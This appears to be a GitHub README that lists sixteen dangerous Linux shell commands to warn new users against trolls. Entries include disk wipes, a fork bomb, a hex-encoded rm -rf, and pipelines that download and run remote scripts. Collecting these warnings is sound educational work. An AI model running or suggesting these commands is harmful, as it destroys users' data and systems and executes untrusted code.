 # dangerous-shell-commands
List of dangerous shell commands to prevent new linux users to get tricked by trolls. Feel free to contribute
# List
1. rm -rf /*
2. :(){ :|: & };:
3. mkfs /dev/sda1 
4. cat /dev/zero > /dev/sda1
5. wget url -O - | sh --
6. curl url | sh
7. dd if=/dev/zero of=/dev/sda2
8. echo 726d202d7266202a | xxd -r -p
9. dd if=/dev/random of=/dev/port
10. echo 1 > /proc/sys/kernel/panic
11. cat /dev/port or cat /dev/mem
12. cat /dev/zero > /dev/mem
13. sudo chmod -r 444 / or sudo chown -r nobody:nobody /
14. last | reboot
15. mv /home/user/* /dev/null
16. wget http://malicious_source -O- | sh
